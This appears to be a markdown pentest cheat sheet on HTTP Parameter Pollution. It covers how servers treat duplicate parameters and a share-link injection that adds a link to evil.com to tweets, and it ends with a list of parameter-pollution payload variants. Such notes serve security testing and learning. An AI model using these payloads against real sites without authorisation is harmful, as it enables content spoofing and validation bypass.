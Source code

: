 # HTTP Parameter Pollution

When searching for HPP keep in mind some servers handle parameters differently.

Take `http://example.com?username=foo&username=bar` as an example. 
- PHP and Apache use the last username occurence. 
- Tomcat uses the first occurence. 
- ASP and IIS user all occurences

A study containing all the servers can be found here: https://owasp.org/www-pdf-archive/AppsecEU09_CarettoniDiPaola_v0.8.pdf

## Social Media Share Links

Often a websites offers its user a feature to share a given page in social media. The fearture works this way: An user clicks the share button and a pop-ip page shows the message and action button that the user click uses to share content.

Amost always the original link from the site is reflected in the request.

We can use HPP to leverage this function to overwrite shared content:

1) Find a page with a share feature
2) Choose Twitter (as an example)
3) Replace the URL from `example.com/cool-article` to `example.com/cool-article?text=;Visit https://evil.com`
4) Load the the new URL and click the share button
5) The user will now share a tweet with `<original_message>;Visit https://evil.com`

## Ideas for pollution

```
?id=id=1
&id=1?id=2
?id['&id=1']=2
?id[1&id=2]=1
?id=1&id=2
&id=1&id=2
?id=1%26id%3D2
?id&id=1
????id=1
&&&&id=1
?id=id['1']=2
?id=1#id=2
?id==1
?id===1
;id=1?id=2
?id;id=1
&id=1;id=2
#id=1?id=2&id=3
?id=1,2
?id1,id2=1
?id[=1&id=2]=3
?id[&id=2]=1
?id=[1,2]
?id&=1
?id[]=1&id=2
?id=/:@&=+$&id=2
?id[=/:@&=+$&id=2]=1
?id={id:{id:1},2}
?id[{id:{id[]:1},2}]=3
?id=%23?id=1
?id=1%26id=2
?id=1%2526id=2
?id=1%c0%a6id=2
?id=1\uc0a6id=2
?id=1&amp;id=2
?id=1&#38;id=2
?id=1%u0026;id=2
```
